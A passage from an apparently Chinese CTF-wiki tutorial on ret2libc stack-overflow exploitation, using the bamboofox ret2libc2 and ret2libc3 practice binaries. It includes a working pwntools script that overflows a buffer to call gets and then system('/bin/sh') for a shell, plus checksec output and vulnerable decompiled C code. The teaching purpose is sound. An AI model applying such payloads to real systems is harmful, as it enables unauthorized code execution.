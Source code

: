 这里我们需要注意函数调用栈的结构，如果是正常调用 system 函数，我们调用的时候会有一个对应的返回地址，这里以 'bbbb' 作为虚假的地址，其后参数对应的参数内容。

这个例子相对来说简单，同时提供了 system 地址与 /bin/sh 的地址，但是大多数程序并不会有这么好的情况。

#### 例2

这里以 bamboofox 中的 ret2libc2 为例  

点击下载: [ret2libc2](https://github.com/ctf-wiki/ctf-wiki/raw/master/pwn/stackoverflow/example/ret2libc2/ret2libc2)

该题目与例 1 基本一致，只不过不再出现 /bin/sh 字符串，所以此次需要我们自己来读取字符串，所以我们需要两个 gadgets，第一个控制程序读取字符串，第二个控制程序执行 system(""/bin/sh")。由于漏洞与上述一致，这里就不在多说，具体的 exp 如下

```python
##!/usr/bin/env python
from pwn import *

sh = process('./ret2libc2')

gets_plt = 0x08048460
system_plt = 0x08048490
pop_ebx = 0x0804843d
buf2 = 0x804a080
payload = flat(
    ['a' * 112, gets_plt, pop_ebx, buf2, system_plt, 0xdeadbeef, buf2])
sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()
```

需要注意的是，我这里向程序中 bss 段的 buf2 处写入 /bin/sh 字符串，并将其地址作为 system 的参数传入。这样以便于可以获得 shell。

#### 例3

这里以 bamboofox 中的 ret2libc3 为例  

点击下载: [ret2libc3](https://github.com/ctf-wiki/ctf-wiki/raw/master/pwn/stackoverflow/example/ret2libc3/ret2libc3)

在例 2 的基础上，再次将 system 函数的地址去掉。此时，我们需要同时找到 system 函数地址与 /bin/sh 字符串的地址。首先，查看安全保护

```shell
➜  ret2libc3 checksec ret2libc3
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出，源程序仍旧开启了堆栈不可执行保护。进而查看源码，发现程序的 bug 仍然是栈溢出

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets((char *)&v4);
  return 0;
}
```
